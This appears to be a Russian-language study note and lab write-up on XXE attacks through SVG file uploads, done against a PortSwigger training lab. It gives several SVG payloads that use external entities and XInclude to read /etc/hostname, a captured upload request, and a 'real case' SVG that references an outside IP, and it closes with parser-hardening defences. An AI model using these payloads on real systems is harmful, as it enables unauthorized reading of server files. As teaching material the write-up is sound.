


доп теория 
### Атаки XXE через загрузку файлов
Некоторые распространенные форматы файлов используют XML или содержат XML-подкомпоненты. Примерами форматов на основе XML являются форматы офисных документов, такие как DOCX, и форматы изображений, такие как SVG.

Даже если приложение ожидает получить  формат,  PNG или JPEG, используемая библиотека обработки изображений может поддерживать изображения SVG. 

Поскольку формат SVG использует XML, злоумышленник может отправить вредоносное изображение SVG и таким образом достичь 
скрытой поверхности атаки для уязвимостей XXE.


-----
## Картинка визуально выглядит так же, но внутри — XML-код с атакой.
------

==SVG== — это **векторная графика**, но по сути это **чистый XML**. 
любой SVG-файл ,  там теги:

```xml

<svg width="100" height="100">
  <circle cx="50" cy="50" r="40" fill="red" />
</svg>


----
эксплуатация - реал кейс

<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://159.65.151.4:81/svg" />
</svg>


или так
<image xlink:href="/member/profile/testing68-1586481096585.png" />

```

-----

==DOCX==,==XLSX==, ==PPTX== — это **ZIP-архивы**, внутри которых лежат XML-файлы. Например:
- `word/document.xml` — сам текст
- `docProps/core.xml` — метаданные

-----
тоже могут быть уязвимы:

- ==**XLSX==** (Excel)
- ==**PDF==** (там внутри может быть XML/XFA)

- **JPG/PNG**? — нет, они бинарные, но! 
Если сервер **конвертирует** что-то в SVG или использует библиотеку типа `svglib`, которая парсит XML, то даже загружая PNG,  можно влиять на процесс.


-----

лаба
https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload
# Exploiting XXE via image file upload
задание
нужно прочитать файл /etc/hostname 
есть уязвимость в загрузке картинки в комментах

---

приступаю к решению:

в комментариях есть функция загрузки аватарки!

я создал простую картинку SVG и открыл ее код:


оказалось - там обычный XML
```xml
<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
</svg>

```

перехватил запрос который "сохраняет" на сервер мою картинку которую я выбрал со своего устройства
вижу здесь тот же чистый xml код картинки
```http

POST /post/comment HTTP/2
Host: 0af2008c035853be80ba3f18002f0082.web-security-academy.net
Cookie: session=i56QJAi5WlaFQA4pCxeGVeKUlmqlHdpA
...............
........
...

------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="csrf"

jsBuAmROFbOeFIOVmEWrkTrYzIo6rFTy
------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="postId"

5
------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="comment"

243
------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="name"

42r
------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="avatar"; filename="123456.svg"
Content-Type: image/svg+xml

<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
</svg>

------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="email"

2_zheka@bk.ru
------WebKitFormBoundary2liRvLmsskQ2Lzas
Content-Disposition: form-data; name="website"


------WebKitFormBoundary2liRvLmsskQ2Lzas--

```

----


переделал код картинки в запросе на 
```xml

<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/hostname"/></foo>
</svg>

```

сервер ответил - синтаксической ошибкой 
(его ответ - уязвимость сама по себе, так как ошибки мне возвращаются!)
пишет
 что не знает это пространство имен
 `http://www.w3.org/2000/svg, name: foo`
 
```


  <p class=is-warning>SVG transcoder exited with an error: null
Enclosed Exception:
The current document is unable to create an element of the requested type (namespace: http://www.w3.org/2000/svg, name: foo).</p>
  </div>
  
```


#### переделаю, но SVG-парсеры обычно не обрабатывают DOCTYPE внутри SVG
значит:

###### способ с комментами
```xml

<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<!-- <xi:include xmlns:xi="http://www.w3.org/2001/XInclude" parse="text" href="file:///etc/hostname"/> -->
</svg>

```
нет нужного результата
###### способ с CDATA
```xml
<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<![CDATA[<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" parse="text" href="file:///etc/hostname"/>]]>
</svg>
```
нет нужного результата
###### способ  атрибут в существующем теге
```xml
<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<text x="10" y="20" xi:include="file:///etc/hostname"/>
</svg>
```
нет нужного результата 
###### способ текстовый узел
```xml
<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<text x="10" y="20"><xi:include parse="text" href="file:///etc/hostname"/></text>
</svg>
```
нет  нужного результата
###### способ с  DOCTYPE внутри svg......
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="384" height="384" viewBox="0 0 384 384" fill="none" xmlns="http://www.w3.org/2000/svg">
<circle cx="192" cy="192" r="192" fill="#2A9164"/>
<circle cx="238" cy="264" r="120" fill="#E4F782"/>
<circle cx="265" cy="311" r="73" fill="#829AF7"/>
<text x="10" y="20">&xxe;</text>
</svg>
```
нет нужного результата

я перепробовал способы выше, ответ приходит без ошибки, но и без каких-либо видимых данных, возможно потребуется выводить данные на свой сервер.
это эта лаба не про слепые XXE.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
тоже не работает!

---
подсмотрю  все-таки решение:

вот способ из решения 
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

не сработало...  снова ответ как и от предыдущих ответов
```http
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=5
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

----
пробовал делать новые чистые запросы
все-равно не работает
наверно нужно - другой формат пробовать, но в лабе пишут, что нужно через SVG это сделать.

---

заметил особенность, все мои комменты , в них моя аватарка грузится как PNG , то есть я гружу туда SVG - и оно переделывается в PNG


также я заметил, что при загрузки моих аватарок с сервера (обновляю страницу комментов)
то сама картинка одна и таже имеет разный размер в ответе

то есть какие-то данные которые все таки приходят - но видимо кодируются в PNG 
при обработке xml происходит изменение формата на PNG и скорее всего и тот текст что приходит  по запросу  "file:///etc/hostname" этот текст растеризуется в пиксели 

---

# оказывается - все предыдущие способы сработали! 
## это моя ошибка невнимательности была

вот запрос на получение картинки из комментов




но если его отредерить - вот видно картинку!


вот страница с комментами, и здесь вместо картинки и отображается тот самый нужный мне код! практически все мои пейлоады сработали выдали код   `aaf1902a1df2` 
#### данный код     aaf1902a1df2  и есть решение лабы! лаба решена!




## способы защиты

###### Удалять DOCTYPE из всех XML-файлов внутри архива

###### ОТКЛЮЧИТЬ ОБРАБОТКУ DTD (DOCTYPE) И ВНЕШНИХ СУЩНОСТЕЙ
Если парсеру запретить обрабатывать `DOCTYPE` и внешние ссылки, XXE просто нечему будет работать

###### Для PDF (с XFA-формами)

PDF может содержать XML/XFA-формы. Защита:
- Отключить обработку динамических XFA-форм
- Использовать безопасные рендереры (например, PDFBox с настройками)

###### Content-Type не защищает

Я отправил SVG с `Content-Type: image/svg+xml` — **это честный тип**, но сервер его обработал и сконвертировал.

**Вывод:** нельзя доверять проверке по MIME-типу. Нужно:
- Проверять **реальное содержимое**
- Использовать белый список разрешённых тегов
- Перекодировать изображения через безопасную библиотеку (которая сама не парсит XML)

###### Конвертация изображений — double-edged sword

Сервер конвертировал SVG в PNG — это **помогло атаке**, потому что текст растеризовался в картинку.
**Защита:** если конвертировать типы — то делать это в изолированном окружении (контейнер, sandbox), БЕЗ доступа к файловой системе.

----
 ###### от xxe  XInclude:
для (Java):** ### Отключить XInclude
```java

factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);


factory.setXIncludeAware(false);
```
**Пример (PHP):**
```php
libxml_disable_entity_loader(true);
```
**Пример (.NET):**
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit; // или Ignore
```
###### ИСПОЛЬЗОВАТЬ JSON ВМЕСТО XML
- JSON тоже может быть уязвим (JSON injection, prototype pollution) — но XXE там нет
JSON **не поддерживает** DTD и сущности — XXE там просто невозможен
Если API может принимать JSON — используй его. 
Меньше функционала = меньше дыр.

###### не возвращать логи ошибок на клиент!!!
ошибки не должны выходить наружу!
###### ВСЕГДА ЯВНО НАСТРАИВАТЬ ПАРСЕР

Никогда не полагайся на настройки "по умолчанию"  в парсерах / библиотеках — они часто опасны  В каждом языке/библиотеке надо **целенаправленно запретит**ь
- `DOCTYPE`
- Внешние сущности (`SYSTEM`, `PUBLIC`)
- XInclude (если не нужно)


###### Валидация входных данных

Не только отключать фичи, но и:

- **Белый список разрешённых тегов**
- Проверка, что это действительно XML, а не бинарный мусор
- Ограничение размера (чтобы не выкачали 1 ГБ файл)

######  Запрет доступа к файловой системе

На уровне ОС/контейнера:

- Запускать парсер от пользователя **без прав на чтение системных файлов**
- chroot / контейнер с read-only FS
- AppArmor / SELinux — запрет на чтение `/etc/`, `/home/` и т.д.


---------


